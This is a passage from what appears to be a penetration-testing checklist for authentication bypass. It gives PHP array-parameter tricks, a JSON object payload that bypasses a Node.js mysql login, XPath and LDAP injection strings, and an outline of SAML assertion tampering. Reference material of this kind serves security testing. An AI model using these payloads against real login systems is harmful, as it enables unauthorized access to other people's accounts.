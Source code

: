     ```
    it can contain a important info  such as username and password
    ```
    
    - [ ] Check the PHP comparisons error:
    
    ```
    user[]=a&pwd=b , user=a&pwd[]=b , user[]=a&pwd[]=b
    ```
    
    - [ ] Change content type to json and send json values (bool true included)
    
    ```
    If you get a response saying that POST is not supported you can try to send the JSON in the body but with a GET request with Content-Type: application/json
    ```
    
    - [ ] Check nodejs potential parsing error [check this article](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)
    
    ```
    1. Nodejs will transform that payload to a query similar to the following one: SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` ``password=password=1; which makes the password bit to be always true.2. If you can send a JSON object you can send "password":{"password": 1} to bypass the login.3. Remember that to bypass this login you still need to know and send a valid username.4. Adding "stringifyObjects":true option when calling mysql.createConnection will eventually block all unexpected behaviours when Object is passed in the parameter.
    ```
    
    - [ ] No SQL Injection
    
    ```
    <https://book.hacktricks.xyz/pentesting-web/nosql-injection\#basic-authentication-bypass>
    ```
    
    - [ ] XPath Injection
    
    ```
    ' or '1'='1' or ''='' or 1]%00' or /* or '' or "a" or '' or 1 or '' or true() or ''or string-length(name(.))<10 or''or contains(name,'adm') or''or contains(.,'adm') or''or position()=2 or'admin' or 'admin' or '1'='2
    ```
    
    - [ ] LDAP Injection
    
    ```
    **)(&*)(|(&pwd)*)(|(**))%00admin)(&)pwdadmin)(!(&(|pwd))admin))(|(|
    ```
    
    - [ ] [Authorization Bypass](https://www.securify.nl/en/advisory/authorization-bypass-in-infinitewp-admin-panel/)
    
- SAML Authentication Bypass
    
    - SAML Authorization Bypass - Scenario 1
        
        - A user can tamper the SAML response further send to the service provider (step 5 in SAML Workflow) and replace the values of the assertions released by IDP such as username/email.
        - A weak SAML implementation would not verify the signature and  
            thus allow an attacker to access the account of another user
        